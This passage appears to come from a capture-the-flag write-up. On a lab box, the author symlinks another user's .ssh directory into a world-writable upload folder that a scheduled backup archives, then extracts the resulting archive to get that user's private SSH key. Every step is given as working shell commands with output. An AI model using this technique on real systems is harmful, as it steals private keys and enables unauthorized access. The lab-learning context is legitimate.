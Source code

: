 Ok, so first we need to link .ssh to the folder being backed up:

```text
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ls -lsa
 4 drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
 4 drwxr-xr-x 2 root root  4096 Mar  7  2015 css
 4 drwxr-xr-x 4 root root  4096 Mar  7  2015 images
72 -rw-r--r-- 1 root root 71744 May  6 10:42 index.html
 4 drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
 4 drwxrwxrwx 2 root root  4096 Oct 10 21:21 uploads
```

We see we haven't got permission to link in to the dashboard folder, but we have full rights over the uploads folder. So we will create our symbolic link in there:

```text
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard$ ln -s /home/luis/.ssh/ uploads/
```

Now we just need to wait for the backup to run, then check the archives folder to see the file has been moved there:

```text
tomcat@seal:/opt/backups/archives$ ls -lsa
596 -rw-rw-r-- 1 luis luis 609578 Oct 10 21:21 backup-2021-10-10-21:21:33.gz

tomcat@seal:/opt/backups/archives$ cp backup-2021-10-10-21:21:33.gz /dev/shm/pencer.gz
```

Our file has arrived, I've moved it somewhere safe so we can look inside:

```text
tomcat@seal:/dev/shm$ gzip -kd pencer.gz 

tomcat@seal:/dev/shm$ file pencer
pencer: POSIX tar archive

tomcat@seal:/dev/shm$ tar xvf pencer
dashboard/
dashboard/scripts/
dashboard/images/
dashboard/css/
dashboard/uploads/
dashboard/bootstrap/
dashboard/index.html
dashboard/scripts/flot/
dashboard/scripts/datatables/
<SNIP>
dashboard/uploads/.ssh/
dashboard/uploads/.ssh/id_rsa
dashboard/uploads/.ssh/id_rsa.pub
dashboard/uploads/.ssh/authorized_keys
<SNIP>
```

We've decompressed the backup archive, now we can look at the .ssh folder that was copied in to it:
